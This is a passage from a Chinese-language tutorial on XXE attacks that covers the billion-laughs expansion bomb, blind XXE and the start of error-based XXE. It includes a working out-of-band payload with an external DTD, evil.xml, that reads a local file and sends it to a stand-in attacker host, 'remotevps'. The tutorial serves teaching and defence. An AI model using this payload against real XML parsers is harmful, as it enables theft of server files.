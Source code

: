 当 XML 解析器加载该文档时，它会看到它包含一个根元素 “lolz”，该元素包含文本 “&lol9;”。

然而，“&lol9;”是一个已定义的实体，它扩展为包含十个 “&lol8;” 字符串。

每个 “&lol8;” 字符串都是一个已定义的实体，可以扩展到 10 个 “&lol7;” 字符串，以此类推。

在处理完所有的实体扩展之后，这个小 (小于 1 KB) 的 XML 块实际上将包含 109 = 10 亿个“lol”，占用了将近 3 gb 的内存。

#### Blind XXE

Blind XXE，字面意思也就是提交 xml 的服务器端点不再返回有效的数据，此时我们前面的一些利用方法就要失效了。但是解决方法还是有的。

##### XXE OOB(外带数据通道)

###### 概念

带外数据 (out—of—band data)，有时也称为加速数据 (expedited data)，  
是指连接双方中的一方发生重要事情，想要迅速地通知对方。

这种通知在已经排队等待发送的任何 “普通”(有时称为“带内”) 数据之前发送。

带外数据设计为比普通数据有更高的优先级。带外数据是映射到现有的连接中的，而不是在客户机和服务器间再用一个连接。

###### 利用

带外数据通道的建立是使用嵌套形式，利用外部实体中的 URL 发出访问，从而跟攻击者的服务器发生联系。

但有些情况下不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

```
<?xml version="1.0"?>
<!DOCTYPE ANY\[
<!ENTITY % file SYSTEM "file:///C:/1.txt">
<!ENTITY % remote SYSTEM "http://remotevps/evil.xml">
%remote;
%all;
\]>
<root>&send;</root>
```

evil.xml：

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://remotevps/1.php?file=%file;'>">
```

实体 remote，all，send 的引用顺序很重要，首先对 remote 引用目的是将外部文件 evil.xml 引入到解释上下文中，然后执行 %all，这时会检测到 send 实体，在 root 节点中引用 send，就可以成功实现数据转发。当请求发送以后，攻击者的服务器上就能查看到`1.txt`中的内容。

##### 基于错误的 XXE

形同 blind xxe，当我们成功地让服务端解析了 xml 文档，得到的响应却是通用的。比如添加账号的时候只返回 “添加成功” 这样的响应。此时我们可以让服务器响应报错信息来得到我们要的敏感数据。

有两种报错的来源：

*   DTD 结构的错误
    
*   XML 架构验证时的错误
    